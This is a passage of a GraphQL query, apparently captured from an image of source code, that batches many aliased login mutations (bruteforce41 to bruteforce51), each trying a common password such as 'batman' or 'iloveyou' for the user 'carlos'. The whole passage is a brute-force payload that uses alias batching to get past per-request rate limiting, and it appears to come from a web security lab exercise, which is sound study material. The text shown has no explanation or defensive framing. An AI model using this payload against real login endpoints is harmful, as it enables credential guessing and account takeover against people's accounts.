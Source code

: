 ```
bruteforce41:login(input:{password: "harley", username: "carlos"}) {
        token
        success
    }


bruteforce42:login(input:{password: "batman", username: "carlos"}) {
        token
        success
    }


bruteforce43:login(input:{password: "andrew", username: "carlos"}) {
        token
        success
    }


bruteforce44:login(input:{password: "tigger", username: "carlos"}) {
        token
        success
    }


bruteforce45:login(input:{password: "sunshine", username: "carlos"}) {
        token
        success
    }


bruteforce46:login(input:{password: "iloveyou", username: "carlos"}) {
        token
        success
    }


bruteforce47:login(input:{password: "2000", username: "carlos"}) {
        token
        success
    }


bruteforce48:login(input:{password: "charlie", username: "carlos"}) {
        token
        success
    }


bruteforce49:login(input:{password: "robert", username: "carlos"}) {
        token
        success
    }


bruteforce50:login(input:{password: "thomas", username: "carlos"}) {
        token
        success
    }


bruteforce51:login(input:{password: "hockey", username: "carlos"}) {
        token
        success
```